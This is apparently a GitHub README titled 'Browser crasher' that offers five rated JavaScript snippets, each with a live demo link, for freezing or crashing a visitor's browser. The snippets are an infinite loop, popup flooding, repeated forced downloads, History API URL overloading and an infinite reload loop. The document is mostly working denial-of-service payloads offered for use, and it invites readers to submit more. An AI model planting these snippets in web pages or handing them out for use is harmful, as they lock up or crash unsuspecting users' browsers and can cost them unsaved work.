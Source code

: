 # Browser crasher

This repository provides several ways to crash/freeze the browser. Some of these methods can break the current tab (which requires reloading), while others target the entire browser.
As practice has shown, Chromium-based browsers are more vulnerable to various attacks than Firefox. The whole application is being affected, not just a single tab.

### CPU-bound Infinite Loop 10/10
The most reliable way to completely freeze a page. Works in any browser. Basically forces a user to close the page.

[OPEN](https://murka007.github.io/browser-crasher/?type=0)
```js
for(;;){}
```

### Window Opener 2/10
Opens multiple popups on the page and fills history, which drastically increases memory and cpu usage. Doesn't work if user has `block popups` option enabled.

[OPEN](https://murka007.github.io/browser-crasher/?type=1)
```js
setInterval(() => {
    window.open("", "", "width=1,height=1");
}, 10);
```


### Download Popup Opener 7/10
Almost the same method as `Window Opener`, but this approach is more consistent among all browsers.

[OPEN](https://murka007.github.io/browser-crasher/?type=2)
```js
const download = (text) => {
    const blob = new Blob([text], { type: "text/plain" });
    const url = URL.createObjectURL(blob);
    const link = document.createElement("a");
    link.href = url;
    link.download = "LOL.txt";

    document.body.appendChild(link);
    link.click();

    document.body.removeChild(link);
    URL.revokeObjectURL(url);
}

setInterval(() => {
    download("not happy about you");
}, 50);
```


### URL bar overloading 5/10
Abuses `History API` and fills URL bar with insanely large values.

[OPEN](https://murka007.github.io/browser-crasher/?type=3)
```js
const total = "0".repeat(999999);
setInterval(() => {
    history.pushState(0, 0, total);
}, 50);
```


### Infinite Reload Attack 1/10
Reloads the page multiple times. Firefox has protection against it.

[OPEN](https://murka007.github.io/browser-crasher/?type=4)
```js
window.onbeforeunload = function() {
    // additional attack vector
    localStorage.x = 1;
}

setTimeout(() => {
    for(;;) location.reload(1);
}, 100);
```

If you know other ways to do this, feel free to suggest!